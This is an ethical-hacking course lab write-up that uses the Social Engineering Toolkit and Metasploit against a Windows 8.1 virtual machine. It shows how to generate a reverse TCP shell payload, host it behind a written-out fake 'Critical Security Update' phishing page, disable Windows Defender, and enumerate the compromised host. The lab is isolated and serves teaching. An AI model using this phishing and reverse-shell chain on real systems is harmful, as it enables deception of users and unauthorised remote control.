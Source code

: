 <div style="display: flex; justify-content: space-between; align-items: center;">
  <span style="text-align: left;"><strong>Horacio Gonzalez</strong></span>
  <span style="text-align: center;"><strong>SET and Armitage</strong></span>
  <span style="text-align: right;"><strong>ICT450 Ethical Hacking</strong></span>
</div>

#### **Overview**
In this lab we show the use of the Social Engineering Toolkit (SET), Metasploit, and Armitage for exploiting a Windows 8.1 machine. The steps include importing the Windows machine into VirtualBox, creating a reverse shell payload, hosting the payload using a phishing webpage, and using Armitage to exploit the system and gain control of the target machine.



#### **1. Environment Setup**
##### **1.1 Import the Windows 8.1 Machine into VirtualBox**
1. Open VirtualBox and navigate to **File** -> **Import Appliance**.
2. Select the `.ova` file for the Windows 8.1 virtual machine.
3. Follow the prompts and ensure the virtual machine is configured to use **Host-Only Adapter**.
4. Start the Windows 8.1 VM and log in with the following password:
   - **Password:** `AggiesR0ck$`

5. Click the Windows Key and search for Windows Defender
![alt text](image.png)   
6. Open Windows Defender, go to settings, disable Real Time Protection and Save changes.
![alt text](image-1.png)   

##### 1.2 Update and Configure Kali
1. Open a terminal in Kali Linux and update the system:
   ```bash
   sudo apt update -y && sudo apt full-upgrade -y
    ```
2. Start required services in Kali:
    ```
    sudo systemctl start apache2
    ```
3. Verify the services are running:
    ```
    sudo systemctl status apache2
    ```

#### **2. Using the Social Engineering Toolkit (SET) In Kali**
##### 2.1 Launch SET
1. We will start by launching SET, open a terminal and type:
   ```
   sudo setoolkit
    ```
![alt text](image-2.png)   
2. From the SET menu select `1) Social Engineering Attacks` and click enter (just enter the number and enter), then select `4) Create a Payload and Listener`.    

![alt text](image-4.png)   
![alt text](image-3.png)   

3. Then we will select the payload type, so enter `4) Windows Shell Reverse_TCP x64`    

![alt text](image-5.png)   

4. Configure the payload:
   1. LHOST: Enter the IP of your Kali machine `(192.168.56.4)` 
   2. LPORT: `443`   

![alt text](image-6.png)   
5. Allow SET to generate the payload but `do not` start the listener yet.   
![alt text](image-7.png)   
6. Just leave the terminal as it is and open a new terminal.

#### In a New Terminal
##### 2.2 Host the Payload,
1. Move the payload to the Apache web directory:
    ```
    sudo mv /root/.set/payload.exe /var/www/html/shPayload.exe
    ```
2. Verify the payload is in the correct directory:
    ```
    ls /var/www/html
    ```
![alt text](image-8.png)

##### 2.3 Create a Phishing Webpage
1. Create a fake HTML page to trick users into downloading the payload:
    ```
    echo '<html>
    <head><title>Important Update</title></head>
    <body>
    <h1>Critical Security Update</h1>
    <p>Click the link below to download the update:</p>
    <a href="shPayload.exe">Download Update</a>
    </body>
    </html>' | sudo tee /var/www/html/index.html
    ```
2. Verify the page is correctly saved:
    ```
    cat /var/www/html/index.html
    ```   
    ![alt text](image-9.png)   
3. Restart the Apache server to serve the payload and the webpage:
    ```
    sudo systemctl restart apache2
    ```

##### 2.4 Go back to the terminal with the payload we haven't started
1. Go back to the SET terminal and enter `yes` and hit Enter to start the payload listener.   

![alt text](image-10.png)    

2. SET will now wait for the reverse shell connection.
3. We can open a new terminal and check if we have done this correctly by checking the ports open with:
    ```
    sudo netstat -plnt
    ```   

    ![alt text](image-11.png)
4. Go back to the Metasploit/SET terminal and keep it open

##### 2.5 Go to the Windows machine
1. Inside the Windows machine open Firefox and go to (your Kali's IP):
    ```
    http://192.168.56.4
    ```    
![alt text](image-12.png)   
2. Download the payload
3. Go to the file location
4. Right-Click the file and click `Properties`    
![alt text](image-13.png)
5. Click `Unblock` and click `Apply`, then `OK`

![alt text](image-14.png)
6. Now open the File

##### 2.6 Inside the Kali Machine
1. We should see that a shell session was opened 
2. To list all the sessions opened
    ```
    sessions -l
    ```
3. Then to interact with the session
    ```
    sessions -i <sessionID>
    ```   

![alt text](image-15.png)   

4. If we did everything correctly, we should be inside the machine, so run a couple of commands to check if we are indeed inside the target and get info about the system.
    ```
    dir
    hostname
    wmic os get caption
    wmic computersystem get username
    wmic process list brief
    ```

![alt text](<Screenshot 2024-11-22 184434.png>)
5. Once we are done exploiting the Windows machine we can close the reverse shell entering `exit`.
6. We enter `exit` one more time to exit Metasploit.
7. We can now close the terminal.
   
   